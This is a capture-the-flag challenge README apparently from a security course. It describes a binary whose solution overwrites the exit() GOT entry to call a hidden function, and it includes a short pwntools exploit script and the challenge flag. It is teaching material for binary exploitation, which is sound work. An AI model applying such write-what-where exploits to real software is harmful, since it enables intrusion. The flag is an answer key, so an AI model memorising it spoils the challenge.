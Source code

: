 # AllBad
### 📄 Description
Can you make the angry man express himself?

### ⚙ How to run
```bash
./vuln
```

### ⛔ Rules
- Do not patch this binary.
- Do not modify or delete the temp file.
- You MUST solve the challenge by providing valid inputs.
- You CANNOT just jump with the debugger to any function that directly prints the flag.
- If you think you're breaking these rules with your solution, please ask the teachers.

<details>
    <summary>
        <h2>🔑 Solution</h2>
    </summary>

Using ida we see that the main function does nothing. But we noticed `give_the_man_a_guitar()` function. What we can do is ovveride the pointer to `exit()` to point to  `give_the_man_a_guitar()` function, so that when `exit(0)` is called at the end, it actually calls the other function.

```python
from pwn import *

elf = ELF('./vuln')

r = process('./vuln')
r.sendline(b'y')
r.sendline(str(elf.functions['give_the_man_a_guitar'].address))
r.sendline(str(elf.got['exit']))
r.interactive()
```

P.S.: once you run this script, the `temp` file'll get deleted, so if you want to re-try the challenge, you have to restore it.

<h3> 🚩 Flag </h3>

```plain
SPRITZ{St4nDndTTM4L3}
```

[small reward, enjoy](https://www.youtube.com/watch?v=zB_q1I0leoI)
</details>